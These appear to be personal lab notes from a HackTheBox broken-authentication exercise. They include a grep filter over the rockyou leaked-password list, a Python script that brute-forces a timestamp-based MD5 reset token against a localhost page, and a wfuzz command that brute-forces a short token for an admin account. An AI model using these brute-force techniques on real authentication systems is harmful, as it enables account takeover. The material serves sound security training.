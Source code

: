 ### Lab:
Needs a number
Does not need lowercase
Does not need minimum of 8 chars
Does not need special chars
Needs an upper case
#### Filter:
```Shell
grep -E '[0-9]' /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt | grep '[[:upper:]]'
```
Will show lines with at least one digit and at least one uppercase letter
## Predictable Reset Token
#### reset_token_time.py
```Python
from hashlib import md5
import requests
from sys import exit
from time import time

url = "http://127.0.0.1/reset_token_time.php"

# to have a wide window try to bruteforce starting from 120seconds ago
now        = int(time())
start_time = now - 120
fail_text  = "Wrong token"

# loop from start_time to now. + 1 is needed because of how range() works
for x in range(start_time, now + 1):
    # get token md5
    md5_token = md5(str(x).encode()).hexdigest()
    data = {
        "submit": "check",
        "token": md5_token
    }

    print("checking {} {}".format(str(x), md5_token))

    # send the request
    res = requests.post(url, data=data)

    # response text check
    if not fail_text in res.text:
        print(res.text)
        print("[*] Congratulations! raw reply printed before")
        exit()
```
#### Brute Forcing a short token
```Shell
wfuzz -z range,00000-99999 --ss "Valid" "https://brokenauthentication.hackthebox.eu/token.php?user=admin&token=FUZZ"
```
